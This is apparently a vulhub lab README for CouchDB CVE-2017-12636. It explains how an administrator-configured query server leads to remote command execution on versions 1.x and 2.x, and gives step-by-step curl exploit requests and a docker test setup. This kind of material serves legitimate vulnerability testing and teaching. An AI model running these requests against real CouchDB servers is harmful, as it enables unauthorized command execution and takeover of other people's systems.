 # Couchdb Arbitrary Command Execution (CVE-2017-12636)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

CouchDB administrative users can configure the database server via HTTP(S). Some of the configuration options include paths for operating system-level binaries that are subsequently launched by CouchDB. This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell commands as the CouchDB user, including downloading and executing scripts from the public internet.

Chain [CVE-2017-12635](../CVE-2017-12635) and CVE-2017-12636 to get a unauthenticated remote command execution.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Vulnerable Environment

API interfaces of Couchdb 2.x and and 1.x are somewhat different, so this vulnerability is exploited in a different way. This environment is about version 1.6.0, if you want to test version 2.1.0, you can use the [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635).

Start a Couchdb 1.6.0 server.

```
docker-compose up -d
```

After the startup is complete, browse ``http://your-ip:5984/`` to see the welcome page of Couchdb.

## Exploit explanation

CVE-2017-12636 is a post-authentication RCE, so if you do not know the target administrator password, you can use [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635) to add an administrator user first.

### Exploit under 1.x

Execute the following requests in sequence to trigger arbitrary command execution.

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Here, `vulhub:vulhub` is the administrator account and password.

The first request is to add a **query_servers** with the name `cmd` and the value `"id >/tmp/success"`, which is the command we are going to execute later.

The second and third requests are to add a database and document, which can be queried only after it is added here.

The fourth request is to do a query in this Database, a **query_servers** named `cmd` that I added in the first step is used, and finally trigger the command execution.

### Exploit under 2.x

The two APIs I used above have been modified in 2.1.0 and need to be explained in detail here.

Couchdb 2.x introduces clustering, browser the `/_membership` to get the node list.

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

As you can see, we have only one node here, with the name `nonode@nohost`.

Then, modify the configuration of node `nonode@nohost` as follows.

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](2.png)

Then, in the same way as the 1.6.0 exploit:

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x removed `_temp_view`, so we need to add a `_view` in order to trigger the command defined in `query_servers`:

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test", "views":{"woyun":{"map":""} }," language": "cmd"}' -H "Content-Type: application/json"
```

Then commands in `query_servers` will be executed.

## POC script

I wrote a simple POC [exp.py](exp.py), modified the target and command inside the script to your test target, then modified the version to the corresponding Couchdb version (1 or 2), and successfully get the reverse shell:

![](3.png)

